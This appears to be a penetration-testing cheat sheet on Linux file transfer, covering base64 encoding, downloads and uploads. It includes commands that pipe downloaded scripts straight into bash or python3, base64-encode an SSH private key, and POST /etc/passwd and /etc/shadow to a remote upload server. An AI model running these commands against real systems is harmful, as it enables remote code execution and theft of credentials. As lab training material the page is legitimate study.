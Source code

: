 # Content
- [Download Operations](#download-operations)
  - [Base64 Encoding / Decoding](#1-base64-encoding--decoding)
  - [Web Downloads](#2-web-downloads)
  - [SSH Downloads](#3-ssh-downloads)
- [Upload Operations](#upload-operations)
  - [Web Upload](#web-upload)
  - [Alternative Web File Transfer Method](#alternative-web-file-transfer-method)
  - [SCP Upload](#scp-upload)

# Download Operations

## 1) Base64 Encoding / Decoding
- encode
```bash
$ cat id_rsa |base64 -w 0;echo
```
- paste
```bash
$ echo -n '<base64>' | base64 -d > id_rsa
```

## 2) Web Downloads 

### with Wget and cURL
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Fileless Attacks Using Linux
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

**Note:** Some payloads such as mkfifo write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Download with Bash (/dev/tcp)
There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.


```bash
$ exec 3<>/dev/tcp/10.10.10.32/80

$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

$ cat <&3
```

## 3) SSH Downloads
- start ssh
```
sudo systemctl start ssh
```
- connect to it
```
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

# Upload Operations

## Web Upload

- upload server
```
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

$ sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```
- get to it
```
$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

## Alternative Web File Transfer Method
- create web server
```
python3 -m http.server

python2.7 -m SimpleHTTPServer

php -S 0.0.0.0:8000

ruby -run -ehttpd . -p8000
```
- get from it 
```
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload

```
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
